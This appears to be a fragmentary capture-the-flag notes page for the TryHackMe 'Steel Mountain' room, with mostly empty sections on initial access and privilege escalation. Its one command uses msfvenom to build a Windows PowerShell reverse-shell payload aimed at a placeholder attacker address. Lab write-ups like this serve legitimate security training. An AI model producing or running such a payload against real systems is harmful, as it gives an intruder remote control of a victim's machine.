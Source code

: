 # Steel Mountain

{% embed url="https://tryhackme.com/room/steelmountain" %}

### Initial access

...

#### Retrieving shell (without metasploit)

{% code overflow="wrap" %}
```sh
$ msfvenom -p cmd/windows/powershell/powershell_reverse_tcp --platform windows LHOST=<attakcker_addr> LPORT=8888 -o rev_windows.cmd
```
{% endcode %}



### Privilege escalation

